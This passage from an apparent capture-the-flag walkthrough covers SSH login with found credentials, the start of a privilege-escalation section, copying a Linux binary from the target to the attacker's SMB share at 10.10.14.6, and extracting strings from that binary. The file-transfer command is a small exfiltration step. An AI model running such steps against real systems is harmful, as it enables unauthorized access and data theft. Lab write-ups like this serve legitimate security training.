 Let's try to ssh with these creds
<img src="sshdev.png">


---

# <p style="color:RED">Root User PrivESC </p>

---

Now we're logged in as development, we can check what's inside `C:\Development\`

<img src="ff.png">

Let's copy it to our machine

```
copy Krypter_Linux \\10.10.14.6\euch

```
<img src="kryp.png">
It's a Linux executable, before going deeper in the binary it's better to run strings or rabin2 -z to extract the printable strings in the binary!

<img src="rabin.png">
